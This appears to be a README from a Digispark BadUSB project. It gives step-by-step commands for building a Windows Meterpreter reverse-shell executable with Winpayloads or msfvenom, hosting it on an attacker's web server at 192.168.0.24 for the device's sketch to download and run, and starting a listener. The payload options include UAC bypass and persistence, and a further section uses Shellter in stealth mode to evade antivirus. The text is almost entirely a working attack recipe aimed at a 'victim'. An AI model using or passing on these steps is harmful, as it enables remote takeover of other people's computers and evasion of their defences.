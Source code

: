 ## Instructions To Creating the Payload to be executed by run.ino:

 ### METHOD 1 On the host machine(Linux): Using Winpayloads 
   ~ https://github.com/nccgroup/Winpayloads/blob/master/README.md ~
   #### Installation: 
        1. *git clone https://github.com/nccgroup/Winpayloads.git*
        2. *cd Winpayloads*  
        3. *./setup.sh*
        
   #### RUN: 
        1. *./WinPayLoads.py*
        2. *2* (to run Windows Meterpreter Reverse Shell [uacbypass, persistence, allchecks]  )
        3. Enter port and ip or simply press Enter for defaults
        4. *y* (for UAC Bypass)
        5. enter victim windows version
        6. *y* to upload to local webserver
        7. That's it!! update run.ino with the url to the executable eg: http://192.168.0.24:8000/fgxjdqzp.exe, then compile and load to your digispark

  ### On the host machine (linux): // if above method doesn't work. (note: change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  *OPTIONAL* go to Avoiding AntiVirus
   4.  service apache2 start
   5.  msfconsole
   6.  use exploit/multi/handler
   7.  set PAYLOAD windows/meterpreter/reverse_tcp
   8.  set LHOST 192.168.0.24
   9.  set LPORT 8080
   10.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
    

